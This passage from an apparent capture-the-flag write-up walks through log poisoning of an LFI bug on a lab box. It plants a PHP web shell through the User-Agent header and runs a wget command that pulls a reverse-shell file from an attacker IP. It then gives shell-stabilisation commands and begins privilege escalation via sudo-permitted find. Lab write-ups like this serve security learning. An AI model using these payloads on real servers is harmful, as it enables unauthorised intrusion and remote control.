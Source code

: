```
?page=/var/log/apache2/access.log&cmd=wget 10.14.21.28:8000/rev.php -O /home/files/rev.php
```

Before this, let's test the `rce`, we need to use this:

```php
<?php system($_GET['cmd']); ?>
```

On the `User-Agent`, then, send the request twice so we can see the `rce`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519203456.png)

As seen, we got `rce`, let's do the command from before then:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519203554.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519203603.png)

We got the request on our server, we only need to access the file through the `lfi` again and have our listener ready:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519203655.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519203704.png)

We got our shell, let's begin privilege escalation.




# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519203804.png)

With our stable shell, we can now look around the box, for example, if we use `sudo -l`, we get this:

```
www-data@safezone:/$ sudo -l
Matching Defaults entries for www-data on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User www-data may run the following commands on safezone:
    (files) NOPASSWD: /usr/bin/find
```
